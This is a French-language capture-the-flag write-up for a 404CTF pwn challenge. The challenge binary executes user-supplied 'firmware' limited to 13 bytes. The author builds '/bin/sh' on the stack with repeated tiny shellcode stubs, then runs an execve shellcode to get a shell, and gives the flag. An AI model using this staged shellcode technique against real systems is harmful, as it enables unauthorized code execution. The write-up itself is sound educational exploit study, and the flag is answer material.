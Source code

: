 ![intro](./img/intro.png)


## Solve

Dans ce challenge on a accès à une interface qui nous laisse le choix entre:
1. *update le firmware*
```c
void upload_update(long firmware_max_size, void* firmware) {
   ssize_t bytes_read;
   printf("Ready to receive update > ");
   bytes_read = read(0, firmware, firmware_max_size);
}
```
2. *executer le firmaware* (notre shell code)
```c
void apply_update(void* firmware) {
   ((void (*)())firmware)();
}
```

3. *Faire joujoux*
```c
void bidirectional_connection() {
   puts("SPAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACE");
   exit(-1);
}
```

Donc cool on peut envoyer un shellcode et l'éxecuter ! Sauf qu'on peut envoyer un shellcode que de 13 octets... impossible donc de le faire en un coup
  
  
ducoup ma solution est de me constituer un `/bin/sh` sur un endroidt de la stack qui n'est pas utilisé par les differents fonctions des interfaces (update/apply/bidirectional) 

```python
def pushshell(v: bytes, offset = 0):
    o = str(hex(offset))
    print("char", v, "at position: ", o)

    shellcode_asm = f"""
        mov rax, {hex(int.from_bytes(v))}
        mov [rsp-{o}], rax
        ret
	"""
    shellcode = asm(shellcode_asm, bits=64)
    print(f"shellcode length : {len(shellcode)} bytes")
    return shellcode
```
Le shellcode ci dessus fait très exactement `13 octets` et il ne fait qu'envoyer un seul character sur la stack à un offset définit.

de sorte d'avoir un shellcode des plus minimaliste à envoyer et executer ensuite
```python
def shellcode(offset):
    shellcode_asm = f"""
        lea rdi, [rsp-{str(hex(offset))}]
        xor rsi, rsi
        cdq
        mov al, 59
        syscall
	"""
    shellcode = asm(shellcode_asm, bits=64)
    print(f"shellcode length : {len(shellcode)} bytes")
    return shellcode
```
ici je fais juste récuperer l'address à laquel j'ai push mon `/bin/sh` sur la stack dans rdi, set les registres rsi et rdx à 0 et execute `execve` syscall

En somme il faut juste trouver un endroit dans la  stack pour envoyer notre `/bin/sh` charactère par charactère puis une fois ça fait on envoi le shellcode final.


## flag
[Le script](./solve.py)
404CTF{wh3n_l1fe_91ve5_you_LeMOn...}